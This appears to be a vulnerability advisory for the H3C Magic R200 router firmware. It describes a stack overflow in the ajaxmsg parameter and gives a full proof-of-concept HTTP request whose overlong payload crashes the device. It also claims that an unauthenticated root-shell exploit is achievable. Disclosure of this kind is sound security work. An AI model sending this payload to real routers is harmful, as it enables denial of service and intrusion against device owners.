

# H3C magic R200 R200V200R004L02.bin  Stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202012/1361151_30005_0.htm

## Affected version


The figure above shows the latest firmware.

## Vulnerability details



 The value of ajaxmsg is copied into the V11 array through the while loop.  However, the size of the V11 array is only 132, which is easy to cause  buffer overflow .

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware R200V200R004L02.bin
2. Attack with the following POC attacks

```
POST /AJAX/ajaxget HTTP/1.1
Host: 192.168.124.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 280
Origin: https://192.168.124.1
DNT: 1
Connection: close
Referer: https://192.168.124.1/access_ap_acl_cfg.asp?index=-1&search_key=&search_item=4&max_row=8&last_page=9999
Cookie: LOGIN_PSD_REM_FLAG=; PSWMOBILEFLAG=true; LOGINCOUNT=; USERLOGINIDFLAG=
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

ajaxmsg=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


 The above figure shows the POC attack effect 

Finally, you can write exp, which can obtain a stable root shell without authorization


